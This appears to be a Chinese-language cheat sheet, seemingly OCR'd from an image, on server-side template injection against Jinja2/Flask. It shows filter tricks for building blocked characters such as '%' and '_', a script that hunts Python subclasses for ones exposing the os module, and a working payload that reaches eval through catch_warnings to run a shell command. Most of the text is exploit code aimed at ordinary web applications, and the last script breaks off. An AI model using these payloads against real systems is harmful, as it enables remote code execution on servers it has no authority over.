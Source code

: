 ```
```

利用内置过滤器拼接出,'%c',再利用''%语法得到任意字符

```
get %
找到特殊字符<,url编码,得到%
{%set pc = g|lower|list|first|urlencode|first%}


get 'c'

{%set c=dict(c=1).keys()|reverse|first%}

字符串拼接

{%set udl=dict(a=pc,c=c).values()|join %}

可以得到任意字符了

get _
{%set udl2=udl%(95)%}{{udl}}
```

寻找 payload 的脚本

```python
#寻找包含os模块的脚本
#!/usr/bin/env python
# encoding: utf-8
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print(num,item)
         num+=1
    except:
        # print '-'
        num+=1
```

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

```python
#!/usr/bin/python3
# coding=utf-8
# python 3.5
from flask import Flask
from jinja2 import Template
# Some of special names
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__']
```